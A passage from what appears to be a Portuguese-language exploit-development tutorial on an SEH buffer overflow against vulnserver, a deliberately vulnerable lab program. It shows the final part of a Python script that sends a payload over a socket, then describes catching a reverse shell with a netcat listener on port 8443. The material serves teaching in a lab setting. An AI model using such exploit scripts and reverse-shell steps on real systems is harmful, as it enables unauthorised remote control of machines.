 ```python

# conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# envio do payload
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Vamos setar um netcat para ouvir a porta 8443, iniciar o vulnserver fora do immunity e testar o script.

![Enumaração do comando.](/img/std/winbof/winbof-61.png)

E conseguimos nosso reverse shell.

Neste comando, fuzemos a exploração de overflow de SEH e realiamos vários saltos na memória conhecendo um pouco mais a fundo sua estrutura.

Nos próximos comandos vamos experimentar novas complexidades.

GO GO GO!!!
